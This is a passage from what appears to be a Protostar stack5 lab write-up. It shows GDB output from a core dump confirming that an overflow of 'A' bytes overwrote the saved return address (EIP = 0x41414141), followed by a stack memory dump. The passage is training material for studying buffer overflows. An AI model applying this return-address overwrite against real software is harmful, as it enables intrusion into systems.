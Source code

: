 Let's now load the core dump with GDB:

```
root@protostar:/opt/protostar/bin# gdb -q stack5 /tmp/core.11.stack5.1927
Reading symbols from /opt/protostar/bin/stack5...done.

warning: Can't read pathname for load map: Input/output error.
Reading symbols from /lib/libc.so.6...Reading symbols from /usr/lib/debug/lib/libc-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/libc.so.6
Reading symbols from /lib/ld-linux.so.2...Reading symbols from /usr/lib/debug/lib/ld-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
Core was generated by `./stack5'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
(gdb)
```

As we can with the last line, the program terminated with a segfault, it tried
to execute from 0x41414141, the value that got placed into EIP upon return,
proving we successfully modified the Return Address.

Let's examine the stack:

```sh
(gdb) x/100xw $esp - 96
0xbffff7a0:	0xbffff7b0	0xb7ec6165	0xbffff7b8	0xb7eada75
0xbffff7b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff800:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff810:	0x41414141	0xffffff00	0xb7ffeff4	0x08048232
0xbffff820:	0x00000001	0xbffff860	0xb7ff0626	0xb7fffab0
0xbffff830:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
0xbffff840:	0xbffff878	0x1222ec67	0x386a9a77	0x00000000
0xbffff850:	0x00000000	0x00000000	0x00000001	0x08048310
0xbffff860:	0x00000000	0xb7ff6210	0xb7eadb9b	0xb7ffeff4
0xbffff870:	0x00000001	0x08048310	0x00000000	0x08048331
0xbffff880:	0x080483c4	0x00000001	0xbffff8a4	0x080483f0
0xbffff890:	0x080483e0	0xb7ff1040	0xbffff89c	0xb7fff8f8
0xbffff8a0:	0x00000001	0xbffff9bb	0x00000000	0xbffff9c4
0xbffff8b0:	0xbffff9d8	0xbffff9e8	0xbffffa09	0xbffffa1c
0xbffff8c0:	0xbffffa26	0xbfffff16	0xbfffff2a	0xbfffff6c
0xbffff8d0:	0xbfffff83	0xbfffff94	0xbfffff9f	0xbfffffa7
0xbffff8e0:	0xbfffffb4	0xbfffffe8	0x00000000	0x00000020
0xbffff8f0:	0xb7fe2414	0x00000021	0xb7fe2000	0x00000010
0xbffff900:	0x078bfbbf	0x00000006	0x00001000	0x00000011
0xbffff910:	0x00000064	0x00000003	0x08048034	0x00000004
0xbffff920:	0x00000020	0x00000005	0x00000007	0x00000007
```
